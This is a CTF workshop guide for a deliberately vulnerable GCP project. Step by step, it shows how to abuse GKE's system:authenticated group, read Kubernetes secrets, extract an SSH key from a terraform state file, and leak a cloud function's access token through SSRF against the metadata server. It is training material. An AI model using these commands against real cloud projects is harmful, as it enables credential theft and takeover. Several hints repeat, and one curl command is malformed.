 # CTF Guide

## Your Goal

Your goal of this CTF is to exploit a vulnerable GCP project and find up to 5 flags.
During the challenge you will be able to move through the environment and step by step escalate your privileges until you manage the IAM bindings on the project, esentially allowing you to gain control of all resources in the project.
(In our CTF workshop setup, we have to keep you in check a bit and you will only be able to manage specific IAM bindings.)

## Prerequisites

To play this CTF and participate in our workshop you will need:
- A notebook and an internet connection
- A Google account. Any Google account such as `your-throwaway@gmail.com ` is enough. It does not have to be a Google Cloud account. 
- The [gcloud](https://cloud.google.com/sdk/docs/install) command line utility installed on your computer.
- The kubectl utility installed on your computer. You can install it as a component of gcloud: `gcloud components install kubectl`

## Your starting point

The cloud services in the project might be misconfigured or leak information that can be useful for you as attacker.
You'll start out with just an IP address as your first piece of information.

We are providing you with useful hints and commands for each challenge.
Don't hesitate to use them, as you will have limited time for this CTF during our workshop.

## Challenges

### Challenge 1: Cluster confidentials

You received just an IP address as your very first entrypoint into the GCP project.  
Which ports are open? Is something listening here?  
Does it give you an idea what kind of infrastructure it is?

To simplify your next commands, set the IP address as an environment variable: `export IP=<IP>`

<details>
  <summary>Hint 1</summary>

    You found a GKE (Google Kubernetes Engine) cluster.  
    As you are not authenticated, you are part of the group `system:anonymous` and you can't access much.  
    What if you were in `system:authenticated`?  

</details>
  

<details>
  <summary>Hint 2</summary>
    
    `system:authenticated` sounds like strict access control - but is it?  
    All you need to do is authenticate - with pretty much any Google account.  
    What if you can get a token for your own Google account and provide that to the API?  
    Are there any endpoints you can access now?  
    
</details>
  

<details>
  <summary>Hint 3</summary>

    `system:authenticated` will require you to present a Google access token.  
    It can be any token - also for your own Google account that is not associated with our target GCP project.  
    You can use the [oauth playground](https://developers.google.com/oauthplayground/) to get an access token.  
    Select "Kubernetes Engine API v1" as a scope and exchange your authorization code for an access token.  
    To simplify the following commands, set your token in an environment variable: `export TOKEN=<your token>`  
    Present it to the GKE API:  
    `curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api`  
    That's a more promising response than `403 Forbidden1`!  
    Maybe you can find out, which permissions you have on the cluster as part of the `system:authenticated` group.  

</details>
  

<details>
  <summary>Hint 4</summary>

    It would be nice to know what you can access on the cluster.  
    Luckily, there is an endpoint for that too and you are allowed to query it:  
    `curl -k -X POST -H "Content-Type: application/json" -d '{"apiVersion":"authorization.k8s.io/v1", "kind":"SelfSubjectRulesReview", "spec":{"namespace":"default"}}' -H "Authorization:Bearer $TOKEN" https://$IP/apis/authorization.k8s.io/v1/selfsubjectrulesreviews`  
    It looks like you have read access to some resources on the default namespace of the cluster. Start enumerating some that might be interesting.  

</details>
  

<details>
  <summary>Hint 5</summary>

    You can read all resources in the `file-uploader` namespace on the cluster. Which secrets might it hold?  
    `curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/secrets`  
    The secret values are base64 encoded. Decode them to read the value:  
    `echo -n <secret-value> | base64 -d  

</details>
  

Useful commands and tools:

- `nmap -sC -sV <IP>` (don't worry if you don't have nmap installed. Guessing common open ports also works here)
- `curl -k https://<IP>`
- `curl -k -H "Authorization:Bearer <token>" https://<IP>/api/v1/...`
- [Google OAuth Playground](https://developers.google.com/oauthplayground/)

### Challenge 2: State of affairs

You found credentials for a GCP service account.
The json blob already provides some useful information. It contains the GCP project ID, the e-mail of the service account (client_e-mail) and the private key of the account.  

Save the json blob in a file. You can now also use it as a credential for the gcloud CLI:  
`gcloud auth activate-service-account --key-file <path-to-file>`  
You can check that this worked when running `gcloud auth list`. It now shows the service account as active account.  

So what can you do with this account? Did you find any hints during challenge 1?

<details>
  <summary>Hint 1</summary>

    In the configmap and deployment of the app ond the GKE cluster, you can find the name of a storage bucket.  
    Probably the service account you found belongs to this app and it can access the storage bucket.  

</details>

<details>
  <summary>Hint 2</summary>

    The file uploader app running on the GKE cluster can access a storage bucket called "file-uploads-<gcp-project-id>.  
    While the service account can't list all storage buckets, it might still have access to this specific bucket.  

</details>

<details>
  <summary>Hint 3</summary>

    See what you can find on the bucket by using the `gsutil` command line utility.  
    `gsutil ls gs://<bucket-name>`
    While the service account can't list all storage buckets, it might still have access to this specific bucket.  

</details>

Useful commands and tools:

- gsutil (already installed with gcloud): gsutil ls gs://<...>

### Challenge 3: Computing power

The file on the storage bucket is pretty useful for you as attacker.  
That seems to be the leftovers of a terraform pipeline that someone set up for this GCP project.  
They deployed parts of the infrastructure with terraform and you can trace back what the developers did in the terraform state file.

Would that help you to move on into other infrastructure deployed here?

<details>
  <summary>Hint 1</summary>

    The state file contains the parameters that were used to setup a Google Compute Engine VM.  
    But additionally, it contains a secret ...  
    Can you combine this information to access the VM?

</details>

<details>
  <summary>Hint 2</summary>

    The state file contains the parameters that were used to setup a Google Compute Engine VM.  
    But additionally, it contains a secret ...  
    Can you combine this information to access the VM?

</details>

<details>
  <summary>Hint 3</summary>

    The state file conveniently contains the external IP address of a compute engine that was deployed with terraform.  
    But someone also created a Google Secret Manager secret with terraform and specified the secret value as well.  
    If you do that, you have to protect your state file as well, as it will contain the secret value in plain text.  
    Use the SSH key you find in the secret to SSH into the VM.  

</details>

Did you find the flag yet for this challenge?  

<details>
  <summary>Hint 1 - find the flag</summary>
    
    Flags are just metadata anyway ...
    Still, can you find it?

</details>

<details>
  <summary>Hint 2 - find the flag</summary>

    The GCP metadata server is a good endpoint to check when you gained access to a compute VM.  
    If you don't have the VM's access token yet, you could get it from the metadata server.  
    It also shows you startup scripts, ssh access information and any other custom data that someone might have stored as metadata for this VM.  
    `curl "http://metadata.google.internal/computeMetadata/v1/instance/" -H "Metadata-Flavor: Google"`  

</details>


### Challenge 4: Invoking answers

You can controll a compute instance in the project!  
Let's look around a bit to find out what this instance can do and which other services are running in this GCP project.  
Your compute instance is running as a GCP service account, allowing it to interact with the GCP APIs.  
Check which service account this instance uses and what this account can do.  

`gcloud auth list` shows you who you are.  
That account looks like the compute engine default service account! A very powerfull account in GCP.  
By default, it has the "Editor" role on a GCP project! But before getting too excited ... try using some of your new powers:  
`gcloud compute instances list`  

"Request had insufficient authentication scopes". Well, that's disappointing.  
You can list your oauth access scopes with this command:  
`curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$(gcloud auth print-access-token)`

That last access scope looks promising.

<details>
  <summary>Hint 1</summary>

    The access scopes of the compute engine allow you to read all storage buckets in the project.  
    `gcloud storage buckets list`  
    There is a second bucket that you couldn't access before.  
    Its content reveals another resource deployed in this project.  
    `gsutil ls gs://<bucket-name>` lets you list files on the bucket.  
    `gsutil cat gs://<bucket-name>` lets you read files on the bucket.  

</details>

<details>
  <summary>Hint 2</summary>

    A cloud function is running in the project. When deploying a cloud function in GCP, its source code gets uploaded onto a storage bucket. Have a look at the source code to see what this small function does.
    You can find additional hints on how to invoke the function on the compute engine VM.  

</details>

<details>
  <summary>Hint 3</summary>

    A cloud function is running in the project. When deploying a cloud function in GCP, its source code gets uploaded onto a storage bucket. Have a look at the source code to see what this small function does.
    You can find additional hints on how to invoke the function on the compute engine VM.  

</details>

<details>
  <summary>Hint 4</summary>

    Can you call the function from the VM? It responds with 403 Forbidden when you try it without credentials.  
    Maybe you can pass your VMs token as a credential as Authorization header? `curl -H "Authorization:Bearer <token>" https://...`  
    Your access token doesn't seem to work through. Is there another token type you could try?

</details>

<details>
  <summary>Hint 5</summary>

    Cloud functions use an identity token instead of an access token to check if the caller is allowed to invoke them.  
    You can get the identity token of the compute VM in the same way as you would do it for the access token:  
    `gcloud auth print-identity-token`  
    Now you can try calling the function:  
    `curl -H "Authorization:Bearer $(gcloud auth print-identity-token)" https://<function-endpoint>`  
    It seems to expect a URL and then it returns the response.  

</details>

<details>
  <summary>Hint 6</summary>

    Which endpoint could you have the cloud function call?  
    Similar to the compute engine, the cloud function also uses the Metadata server ...

</details>

<details>
  <summary>Hint 7</summary>

    You can pass the URL to the metadata server to the function and have it call it.  
    This way, you can make it leak its access token.  
    `curl -H "Authorization:Bearer $(gcloud auth print-identity-token)" -d '{"url": "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token"} -H "Metadata-Flavor: Google" https://<function-endpoint>`  

</details>

Useful commands and tools:  

- the compute engine also has gcloud installed
- `gcloud auth list`
- `gcloud auth print-access-token`
- `gcloud auth print-identity-token`
- [GCP oauth access scopes](https://developers.google.com/identity/protocols/oauth2/scopes#storage)
- `gsutil ls gs://<..>`
- `gsutil cat gs://<..>`
- `curl -H "Authorization:Bearer <token>" https://...`
- [Metadata server](https://cloud.google.com/functions/docs/securing/function-identity#access-tokens)

### Challenge 5: In the shoes of an admin

You extracted a new access token! Let's see what this one can do.  
You can use the tokeninfo endpoint again to find out:  
`curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=<token>`  
Cloud functions by default are also using the compute engine default service account - but with the full `cloud-platform` access scope!  

That should get you a set of nice new permissions on this GCP project.  
You can view them using this command:  
`gcloud projects get-iam-policy <project-id> --access-token-file <path-to-token-file>`

Useful commands and tools:




